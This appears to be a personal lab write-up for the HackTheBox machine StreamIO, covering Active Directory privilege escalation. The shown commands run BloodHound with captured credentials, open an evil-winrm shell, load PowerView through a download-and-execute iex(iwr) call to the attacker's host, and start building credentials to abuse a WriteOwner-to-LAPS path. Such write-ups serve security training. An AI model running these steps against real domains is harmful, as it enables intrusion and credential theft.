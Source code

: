 Running #pythonbloodhoundingestor first (from attacker box)

https://github.com/dirkjanm/BloodHound.py

`python3 bloodhound.py -d streamio.htb -u JDGodd -p 'JDg0ddls@d0p3cr3@tOr' -gc dc.streamio.htb -ns 10.10.11.158 -c all --zip`

![[Pasted image 20250108203738.png]]
Start #neo4j 

`sudo neo4j console`

![[Pasted image 20250108203841.png]]

Download #Bloodhound from GitHub [[BloodHound]]

https://github.com/SpecterOps/BloodHound-Legacy/releases

Download the release compatible with attacker machine OS (probably linux x64)

Unzip the file. 

Execute with `./Bloodhound-linux-x64/Bloodhound`

Within BloodHound console..mark JDGodd and yoshihide and nikk37 as owned. 

Starting with `Shortest Path from Owned Principals`

Found something. 

JDGodd has write owner of core staff which can ReadLAPSPassword of the DC.

BloodHound abuse info:
![[Pasted image 20250108205243.png]]
Get #evilwinrm back 

`evil-winrm -i 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com'`

![[Pasted image 20250108205628.png]]

Moving #powerview to remote machine. 

It's within the #powersploit recon folder.

`/PowerSploit/Recon/PowerView.ps1`

First load powersploit. 

`iex(iwr http://10.10.14.8/PowerView.ps1 -UseBasicParsing)`

![[Pasted image 20250108205950.png]]
Create password object for JDGodd

`$pwd = ConvertTo-SecureString 'JDg0ddls@d0p3cr3@tOr' -AsPlainText -Force`

![[Pasted image 20250108210145.png]]

`$cred = New-Object System.Management.Automation. PSCredential('streamio.htb\JDGodd' , $pwd)`

![[Pasted image 20250108210333.png]]
